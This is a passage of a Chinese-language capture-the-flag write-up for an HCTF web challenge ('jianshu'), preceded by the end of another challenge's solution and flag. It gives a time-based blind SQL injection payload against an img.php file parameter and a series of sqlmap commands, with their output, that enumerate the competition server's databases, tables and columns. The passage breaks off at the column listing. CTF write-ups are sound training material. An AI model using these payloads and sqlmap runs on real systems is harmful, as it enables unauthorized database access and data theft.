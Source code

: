 ```python
make_safe()
shell.interact()
```

flag：`hctf{J_do_mo_xyz_!_123_HAHA_lee}`

## jianshu（400pt）

这题比较坑，一开始陷入了出题者xss的奇淫贱术中，通过xss拿到了提交content查看的url `http://121.41.37.11:25045/get.php?user=V1ew` 和 合法访问的ip地址：`218.75.123.186`

期间访问 `http://121.41.37.11:25045/get.php?user=` 时提示在数据库中的log去找 `user` 所对应的可选值。

后来发现根目录下有张图片 `2.jpg`，内容是 `sqlmap` 的介绍，然后开始寻找注入点，在 `http://121.41.37.11:25045/img.php?file=1.jpg` 这里发现了猫腻，此处存在盲注：

    http://121.41.37.11:25045/img.php?file=' or if((32=32),sleep(10),2)%231.jpg

然后直接丢进sqlmap开始跑：

    sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 --dbs

跑出3个库：

    available databases [3]:
    [*] information_schema
    [*] t2_db
    [*] test

`information_schema` 和 `test` 都没什么好看的，直接跑 `t2_db` 的表：

    sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 -D t2_db --tables

得到3张表：

    Database: t2_db
    [3 tables]
    +---------+
    | content |
    | file    |
    | log     |
    +---------+

tips叫我们去看log的信息，就直接跑log的字段吧：

    sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 -D t2_db -T log --columns

结果显示只有2个字段：

    Database: t2_db
    Table: log
    [2 columns]
    +--------+------+
    | Column | Type |
    +--------+------+
    | param  | text |
    | type   | text |
    +--------+------+
